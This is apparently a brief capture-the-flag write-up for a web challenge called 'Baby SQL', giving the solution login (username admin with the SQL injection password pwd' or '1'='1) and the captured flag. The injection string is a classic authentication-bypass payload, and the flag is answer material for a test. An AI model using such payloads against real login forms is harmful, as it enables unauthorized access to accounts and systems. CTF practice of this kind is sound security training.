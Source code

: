# Web Exploitation - Baby SQL

Username: admin
Password: pwd' or '1'='1

Flag `HCMUS-CTF{Sh0uld_N0tz_Conc4ten4te_S+r1ng_SQQLLL}`